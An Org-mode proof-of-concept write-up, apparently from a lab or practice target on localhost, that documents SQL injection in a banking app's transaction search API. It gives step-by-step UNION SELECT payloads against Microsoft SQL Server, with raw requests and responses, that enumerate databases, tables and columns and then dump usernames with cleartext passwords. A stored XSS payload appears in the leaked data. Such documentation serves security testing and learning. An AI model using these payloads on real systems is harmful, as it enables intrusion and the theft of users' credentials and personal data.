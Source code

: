 #+title: sql injection at Transactions page
#+author: gabriel

The Transactions page contain a form to search transaction id value. This form is vulnerable because  user input interact direct with the sql query at database, allow attackers to exploit and get personal data, which is a critical vulnerability and high level impact.

*Vulnerable url+parameter ->*
#+begin_src sh
GET /api/Transaction/GetTransactions?start=0&length=10&search%5Bvalue%5D='&search%5Bregex%5D=false&_=1757371269519 HTTP/1.1
Host: localhost:1337
sec-ch-ua-platform: "Linux"
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:1337/Transaction
Accept-Encoding: gzip, deflate, br
Cookie: SessionId=YmllbEBtYWlsLmNvbQ%3D%3D%268f2e4c92d91baf589d8d05388989ba463ff1ab390ee7e6d5c6e4b188c1c92e50%260
Connection: keep-alive

#+end_src

* PoC

The searchValue parameter return an error with single cote ', with null return som JSON amount of data(security issue too?)

After test more requests with the searchValue parameter, is possible to identify different responses from the server when we put 2 single cotes at parameter ->

#+begin_src shell
/api/Transaction/GetTransactions?start=0&length=10&search%5Bvalue%5D=''
#+end_src

*Response ->*
#+begin_src sh
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 08 Sep 2025 22:59:52 GMT
Server: Kestrel
Content-Length: 48

{"recordsTotal":0,
 "recordsFiltered":0,
 "data":[]}
#+end_src

Which means this is really vulnerable to SQL Manipulation.

https://tib3rius.com/sqli -> very usefull cheatsheet to SQL payloads

With a more complex payload, but still a simple payload we can extract a lot of data, user data from the database, and the ports now are open to really more complex paylod's.

Initial PAyload ->
#+begin_src sh
'UNION SELECT * FROM Transactions --
#+end_src

#+begin_src sh
/api/Transaction/GetTransactions?start=0&length=10&search%5Bvalue%5D='UNION SELECT * FROM Transactions --
#+end_src

Encode with URL Encode (CTRL + U at Burp or using the ~Inspector tab~)

*Extraction ->*
#+begin_src sh
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 08 Sep 2025 23:15:49 GMT
Server: Kestrel
Content-Length: 2370

{"recordsTotal":48,
"recordsFiltered":48,
"data":[{"id":38,"senderId":"admin@hexdump.sh",
"receiverId":"admin@hexdump.sh","dateTime":"02/21/2222","reason":"1","amount":1,"reference":"1","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null},{"id":47,"senderId":"biel@mail.com","receiverId":"biel@email.com","dateTime":"10/12/2025","reason":"<script src=x onerror=\"alert(document.domain)\"/>","amount":1,"reference":null,"senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null}
#+end_src

The length parameter are set with value 10, just change it to higher value and get more and more data ->

Change the *length* to 40 ->
#+begin_src sh
/api/Transaction/GetTransactions?start=0&length=40&search%5Bvalue%5D='UNION%20SELECT%20*%20FROM%20Transactions%20--
#+end_src

* Different payloads to show compromise

Response to view ->
#+begin_src sh
{"recordsTotal":48,
"recordsFiltered":48,
"data":[{"id":38,
"senderId":"admin@hexdump.sh",
"receiverId":"admin@hexdump.sh",
"dateTime":"02/21/2222",
"reason":"1",
"amount":1,
"reference":"1",
"senderName":null,
"senderSurname":null,
"receiverName":null,
"receiverSurname":null}]}
#+end_src

Payload based on first leakout response, relating the fields with values with the same type, str or int ->
#+begin_src sh request
'UNION SELECT 42,'second','third','01/01/2025','fourth',1337,'1' --
#+end_src

*Request*
#+begin_src sh request
/api/Transaction/GetTransactions?start=0&length=30&search%5Bvalue%5D='UNION%20SELECT%2042%2c'second'%2c'third'%2c'01%2f01%2f2025'%2c'fourth'%2c1337%2c'1'%20--
#+end_src

*Reponse*
#+begin_src sh response
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 08 Sep 2025 23:31:08 GMT
Server: Kestrel
Content-Length: 1001

{"recordsTotal":4,
"recordsFiltered":4,
"data":
[{"id":47,
"senderId":"biel@mail.com",
"receiverId":"biel@email.com",
"dateTime":"10/12/2025",
"reason":"<script src=x onerror=\"alert(document.domain)\"/>",
"amount":1,
"reference":null,
"senderName":null,
"senderSurname":null,
"receiverName":null,
"receiverSurname":null},
#+end_src

Get the database Version ->
#+begin_src sh
'UNION SELECT 40,@@VERSION,'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Request ->*
#+begin_src sh
/api/Transaction/GetTransactions?search%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=10&search%5Bvalue%5D='UNION%20SELECT%2040%2c%40%40VERSION%2c'THIRD'%2c'01%2f01%2f2025'%2c'four'%2c1337%2c'2'%20--&
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"Microsoft SQL Server 2022 (RTM-CU20-GDR) (KB5063814) - 16.0.4210.1 (X64) \n\tJul 11 2025 13:04:02 \n\tCopyright (C) 2022 Microsoft Corporation\n\tDeveloper Edition (64-bit) on Linux (Ubuntu 22.04.5 LTS) <X64>","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":nul
#+end_src

Extract all the databases of the database ->
complex payload ?
#+begin_src sh
'UNION SELECT 40,(SELECT name + ',' FROM sys.databases FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"master,tempdb,model,msdb,store,securebank,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src

Get all the tables of some database ->

#+begin_src sh
'UNION SELECT 40,(SELECT name + ',' FROM securebank..sysobjects WHERE xtype='U' FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"Sessions,Transactions,TransactionsGroupedByDay,UserData,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src

Extract list of columns of table UserData ->
#+begin_src sh
'UNION SELECT 40,(SELECT column_name + ',' FROM information_schema.columns WHERE table_name='UserData' FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"Id,UserName,Name,Surname,Password,Role,Confirmed,RecoveryGuid,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src


Extract list of rows of table UserData ->
#+begin_src sh
'UNION SELECT 40,(SELECT UserName,Password + ',' FROM UserData FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"<UserName>developer@hexdump.sh</UserName>test1,<UserName>yoda@hexdump.sh</UserName>test1,<UserName>carson.alexander@hexdump.sh</UserName>test1,<UserName>merdith.alonso@hexdump.sh</UserName>test1,<UserName>arturo.anad@hexdump.sh</UserName>test1,<UserName>gytis.barzdukas@hexdump.sh</UserName>test1,<UserName>yan.li@hexdump.sh</UserName>test1,<UserName>peggy.justice@hexdump.sh</UserName>test1,<UserName>laura.norman@hexdump.sh</UserName>test1,<UserName>nino.olivetto@hexdump.sh</UserName>test1,<UserName>electricity@hexdump.sh</UserName>test1,<UserName>water@hexdump.sh</UserName>test1,<UserName>internet@hexdump.sh</UserName>test1,<UserName>gas@hexdump.sh</UserName>test1,<UserName>groceries@hexdump.sh</UserName>test1,<UserName>janeznovak@hexdump.sh</UserName>test1,<UserName>tester@hexdump.sh</UserName>test1,<UserName>credit@securebank.com</UserName>test1,<UserName>admin@hexdump.sh</UserName>admin,<UserName>test@email.com</UserName>testes1,<UserName>leo@mail.com</UserName>testes1,<UserName>biel@mail.com</UserName>password,<UserName>luana@mail.com</UserName>password,<UserName>lio@email.com</UserName>password,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src

 * Clear text passwords, critical security issue !!


* All parameters: TODO Replace all the "&" with new line to pretty view
?draw=7&columns%5B0%5D%5Bdata%5D=senderId&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=false&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=receiverId&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=false&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=dateTime&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=false&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=amount&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=false&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B4%5D%5Bdata%5D=reason&columns%5B4%5D%5Bname%5D=&columns%5B4%5D%5Bsearchable%5D=true&columns%5B4%5D%5Borderable%5D=false&columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B5%5D%5Bdata%5D=id&columns%5B5%5D%5Bname%5D=&columns%5B5%5D%5Bsearchable%5D=true&columns%5B5%5D%5Borderable%5D=false&columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=10&search%5Bvalue%5D=%27rgfewf&search%5Bregex%5D=false&_=1757371269519


* References

https://portswigger.net/web-security/sql-injection
